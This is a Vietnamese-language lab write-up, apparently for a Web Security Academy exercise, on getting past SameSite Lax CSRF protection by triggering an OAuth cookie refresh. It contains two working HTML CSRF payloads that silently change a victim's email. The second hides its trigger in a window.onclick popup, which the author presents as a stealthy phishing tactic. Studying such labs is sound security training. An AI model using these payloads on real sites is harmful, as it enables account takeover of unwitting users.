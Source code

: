 ![image](https://github.com/user-attachments/assets/cf0d31c3-24ba-4d04-9cf8-311d9602b826)

![image](https://github.com/user-attachments/assets/26100410-d948-45f5-a0b7-c3c1d394e100)

Ta tiến hành đăng nhập vào và nhận thấy rằng trang web không có show samesite nên mặc định nó sẽ là `lax` và tiếp theo là khi ta thay đổi email thì ko có csrf token dẫn đến đây là 1 chỗ nguy hiểm, attacker có thể tấn công vào.

Tiến hành tạo 1 cuộc tấn công csrf cơ bản

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a4800de035b72b7804d088f007f001d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Vậy là đã tạo ra 1 cuộc tấn công cơ bản rồi, nhưng gửi payload này thì chắc chắn sẽ bị chặn :">. vì nó check `samesite: lax`, vậy giờ ta chỉ có thể bypass được cuộc tấn công này là dựa vào 1 lỗ hổng trong cơ chế cấp cookie của `oauth`. Như ta để ý thì khi ta truy cập vào `/social-login` thì nó sẽ được cấp 1 cookie mới khi đã đăng nhập qua `oauth`.

Sau đó, bạn tạm dừng 5 giây để trang đăng nhập hoạt động xong (đây là 1 yếu tố quan trọng và quyết định, phải lưu ý làm đúng), và gửi lại request thay đổi email.

Đó là ý tưởng, bởi vì như bạn biết thì `samesite: lax` thì nó sẽ không cho gửi cookie qua POST rồi còn gì, vì thế ta phải lợi dụng điều này để `oauth` nó cấp cookie cho ta.

Và giờ nếu như chúng ta gửi cho con bot thì vẫn thất bại, tại vì sao nhỉ :"))

Như ta biết thì trình duyệt sẽ chặn popup mở tự động, trừ khi người dùng tương tác với trang (ví dụ: click vào trang). Bạn có thể kiểm chứng :">. test bất kì ở trang nào đó.

Thì bây giờ giải pháp là gì ? Nghĩ đơn giản lại thì bây giờ bạn không cho nó pop up tự động là được, bạn thay vào là phishing, bạn yêu cầu người dùng click vào trang để bật popup. Khi họ click, bạn mở `/social-login` trong một popup để làm mới session và sau đó gửi lại yêu cầu thay đổi email.

Vậy giờ làm sao cho tinh vi?? không thể tạo 1 cái button rồi cho user bấm vào được? rất lộ, thay vào đó ta hãy sử dụng `window.onclick` để khi user bấm vào bất kì vị trí nào trên web thì nó đều kích hoạt event này :"))

Rồi đã xong, tiến hành tạo payload thôi

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0acb008803cdb4b981c34d1f001d00f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="admin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  <script>
      window.onclick = () => {
          window.open('https://0acb008803cdb4b981c34d1f001d00f5.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
      }
  
      function changeEmail() {
          document.forms[0].submit();
      }
  </script>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/07515467-a556-44c2-9520-ea1164ddca7d)

Vậy là thành công
